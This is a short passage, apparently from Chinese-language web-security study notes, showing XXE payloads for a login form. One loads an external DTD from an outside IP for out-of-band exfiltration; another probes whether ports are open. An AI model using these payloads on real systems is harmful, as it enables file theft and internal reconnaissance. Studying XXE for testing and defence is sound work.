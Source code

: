     ​![image](assets/image-20240922193420-e3xochz.png)​

    ```python
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE ANY[
    <!ENTITY % a SYSTEM "http://47.113.187.190:90/wai.dtd">
    %a;
    ]>
    <user><username>
    &xxe;
    </username><password>222</password></user>
    ```
6. ​![image](assets/image-20240922200556-7pdq0ul.png)​

#### XXE判断端口开放

通过回显长度或页面特征判断

```python

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY[
<!ENTITY a SYSTEM "http://47.113.187.190:80">
]>
<user><username>
&a;
</username><password>222</password></user>
```

#### 命令执行
